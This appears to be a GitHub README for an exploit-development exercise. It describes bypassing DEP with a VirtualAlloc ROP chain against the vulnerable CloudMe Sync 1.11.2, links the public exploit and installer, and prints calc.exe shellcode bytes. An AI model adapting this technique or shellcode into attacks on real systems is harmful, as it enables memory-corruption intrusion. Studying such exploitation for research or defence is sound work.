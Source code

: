 # ROPme
Bypass Data Execution Prevention (DEP) Using VirtualAlloc in a ROP (Return-Oriented Programming) chains is a common technique to bypass DEP (Data Execution Prevention) by allocating executable memory in a process. The idea is to use a sequence of gadgets (short sequences of instructions ending in a return) to call VirtualAlloc or a similar function and allocate memory with PAGE_EXECUTE_READWRITE permissions. This allocated memory can then be used to execute shellcode

![image](https://github.com/user-attachments/assets/ba318158-d6c6-462b-94a8-83b803af2827)



## i start from here : [https://www.exploit-db.com/exploits/46250]
## CloudMe Sync 1.11.2 vulnerable version : [https://www.exploit-db.com/apps/f0534b12cd51fefd44002862918801ab-CloudMe_1112.exe]
## ==> i use :
### - WINdbg
### - immunity Debugger
### - IDA pro 
### - SublimeText 
### - IDLE from python 
### - VirtualAlloc function (memoryapi.h) : https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc
### - and finaly the calculator shellcode :
```sh

# Shellcode calc.exe
shellcode = ""
shellcode += "\xdb\xde\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x31\xba\xef"
shellcode += "\xc3\xbd\x59\x83\xc0\x04\x31\x50\x14\x03\x50\xfb\x21"
shellcode += "\x48\xa5\xeb\x24\xb3\x56\xeb\x48\x3d\xb3\xda\x48\x59"
shellcode += "\xb7\x4c\x79\x29\x95\x60\xf2\x7f\x0e\xf3\x76\xa8\x21"
shellcode += "\xb4\x3d\x8e\x0c\x45\x6d\xf2\x0f\xc5\x6c\x27\xf0\xf4"
shellcode += "\xbe\x3a\xf1\x31\xa2\xb7\xa3\xea\xa8\x6a\x54\x9f\xe5"
shellcode += "\xb6\xdf\xd3\xe8\xbe\x3c\xa3\x0b\xee\x92\xb8\x55\x30"
shellcode += "\x14\x6d\xee\x79\x0e\x72\xcb\x30\xa5\x40\xa7\xc2\x6f"
shellcode += "\x99\x48\x68\x4e\x16\xbb\x70\x96\x90\x24\x07\xee\xe3"
shellcode += "\xd9\x10\x35\x9e\x05\x94\xae\x38\xcd\x0e\x0b\xb9\x02"
shellcode += "\xc8\xd8\xb5\xef\x9e\x87\xd9\xee\x73\xbc\xe5\x7b\x72"
shellcode += "\x13\x6c\x3f\x51\xb7\x35\x9b\xf8\xee\x93\x4a\x04\xf0"
shellcode += "\x7c\x32\xa0\x7a\x90\x27\xd9\x20\xfe\xb6\x6f\x5f\x4c"
shellcode += "\xb8\x6f\x60\xe0\xd1\x5e\xeb\x6f\xa5\x5e\x3e\xd4\x59"
shellcode += "\x15\x63\x7c\xf2\xf0\xf1\x3d\x9f\x02\x2c\x01\xa6\x80"
shellcode += "\xc5\xf9\x5d\x98\xaf\xfc\x1a\x1e\x43\x8c\x33\xcb\x63"
shellcode += "\x23\x33\xde\x07\xa2\xa7\x82\xe9\x41\x40\x20\xf6"
```
